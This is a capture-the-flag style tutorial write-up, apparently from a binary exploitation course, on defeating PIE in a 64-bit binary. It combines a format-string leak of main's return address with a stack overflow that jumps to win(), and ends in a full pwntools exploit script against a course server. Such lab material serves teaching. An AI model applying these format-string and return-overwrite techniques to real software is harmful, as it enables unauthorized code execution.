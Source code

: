 ```yaml
---
description: PIE again, 64-bit edition.
---
```


# leak64

{% file src="../../.gitbook/assets/leak64.zip" %}

This binary is remarkably similar to the last one, with two major differences:

1. We can't forget about the `movaps` fault; we need a way to mitigate this.
2. Addresses are 64-bit but are formatted very similarly.

Since this is the same binary as the last one, just compiled in 64-bit, we will skip most of the static analysis.

### The Attack Vector

First, we need to find a leakable address on the stack. We'll use `gdb` to do this because, in 64-bit, it's often a high-valued offset.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/10gx $rsp
0x7fffffffe3c0:	0x7025207025207025	0x2520702520702520
0x7fffffffe3d0:	0x2070252070252070	0x0000007025207025
0x7fffffffe3e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3f0:	0x00007fffffffe400	0x00005555555552ba
0x7fffffffe400:	0x0000000000000001	0x00007ffff7c29d90
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We like the 8th value on the stack because it matches the format of the instructions nearby. If we check where it is:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/wx 0x00005555555552ba
0x5555555552ba <main+18>:	0x000000b8
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

This is our return pointer to `main()`! We can choose to leak this value and then overwrite it later. Our offset for the format string is going to be `13`.

{% hint style="danger" %}
#### _Uh, why?_

In 64-bit, there are 6 registers. The first is reserved for the format string so we don't count that one. This makes our offset `8+6-1=13`.
{% endhint %}

Now we have what we need. We can leak the address of `main() + 18` and then overwrite the return pointer with the address of `win()`.

```python
p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)
```

We also need a way to beat the `movaps` instruction. Because PIE is enabled, we can't hardcode gadgets. This means we have to find what function they're in, their offset, and then use that for our gadget. In this case, we can pull any `ret`, I tend to use `deregister_tm_clones()` because I know it's not problematic. We find our `ret` instruction:

```nasm
   0x0000555555555158 <+40>:	ret    
```

We can use this to build our payload:

```python
payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)
```

Then, we send the payload off and get the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak64')
p = remote('vunrotc.cole-ellis.com', 7300)

p.recvline()

p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)

payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}
